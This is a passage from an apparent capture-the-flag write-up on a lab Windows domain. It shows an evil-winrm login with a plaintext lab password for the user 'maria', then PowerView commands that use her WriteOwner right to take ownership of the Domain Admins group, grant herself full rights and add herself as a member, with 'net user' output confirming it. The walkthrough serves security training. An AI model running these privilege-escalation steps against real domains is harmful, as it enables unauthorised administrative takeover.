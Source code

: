 

The last one works over WinRM for maria:



    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\maria\Documents>



## Shell with Domain Admins

### Takeover Domain Admins Group

maria has `WriteOwner` on the Domain Admins group. From the help in
BloodHound, this means maria can change the owner of the group.

I'll import `PowerView.ps` and then assign maria as the owner of the
group:



    *Evil-WinRM* PS C:\programdata> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'



I think there are some weird timing issues that can come up running this
command that causes the command to fail (likely some cleanup cron
setting the permissions back). Waiting a minute and running again
worked.

As owner, maria can give maria full rights over the group:



    *Evil-WinRM* PS C:\programdata> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All



Now maria can add themself to the group:



    *Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'



It worked:



    *Evil-WinRM* PS C:\programdata> net user maria
    User name                    maria
    Full Name                    maria garcia
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
